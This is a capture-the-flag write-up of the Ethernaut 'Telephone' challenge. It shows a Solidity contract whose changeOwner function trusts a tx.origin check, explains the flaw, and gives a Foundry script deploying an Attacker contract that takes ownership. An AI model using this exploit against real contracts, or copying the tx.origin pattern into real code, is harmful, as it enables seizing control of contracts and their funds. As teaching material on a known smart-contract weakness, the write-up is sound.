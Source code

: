 # Telephone   
In this challenge, our mission is to become the owner of the contract. This challenge demonstrates the importance of understanding the difference between `tx.origin` and `msg.sender` in Ethereum.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
The contract has only one function: `changeOwner`, which checks if `tx.origin` is different from `msg.sender`. If they are different, it sets the address we pass to the function as the new owner of the contract.

To solve this challenge, we need to create a contract that calls the `changeOwner` function. This way, `msg.sender` will be the address of our contract, and `tx.origin` will be our wallet address, satisfying the condition `tx.origin != msg.sender`.

Here is the script I wrote to exploit this vulnerability:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
    Attacker attacker;

    function run() public {
        vm.startBroadcast();
        attacker = new Attacker( /* Your instance address */ );
        attacker.attack(/* here goes your address */);
        vm.stopBroadcast();
    }
}

contract Attacker {
    address victim;

    constructor(address _victim) {
        victim = _victim;
    }

    function attack(address mypubAddress) public {
        (bool success, ) = victim.call(
            abi.encodeWithSignature("changeOwner(address)", mypubAddress)
        );
    }
}
```
